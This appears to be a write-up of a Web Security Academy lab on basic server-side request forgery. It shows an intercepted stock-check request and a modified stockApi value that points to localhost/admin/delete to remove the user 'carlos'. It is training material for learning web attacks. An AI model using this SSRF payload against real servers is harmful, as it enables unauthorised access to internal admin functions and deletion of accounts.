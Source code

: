 *** *** *** *** *** *** *** *** *** *** *** *
LAB-01 : Basic SSRF against the local server
*** *** *** *** *** *** *** *** *** *** *** *

- Access the lab and pick - View details
- At the bottom you will see - Check Stock

Initial request:

POST /product/stock HTTP/2
Host: 0a0000f30455b34b81187bea007400da.web-security-academy.net
Cookie: session=zOHO3dwNS0AmenAeR0uBKCyU9jkXhQO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0000f30455b34b81187bea007400da.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0000f30455b34b81187bea007400da.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

Inspector decrypts stockApi line to readable text:

http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

So you need to change:
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
==
http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

to 

stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete%3fusername%3dcarlos
==
stockApi=http://localhost/admin/delete?username=carlos

This will not just access admin dashboard but also deletes user carlos and solves the LAB.
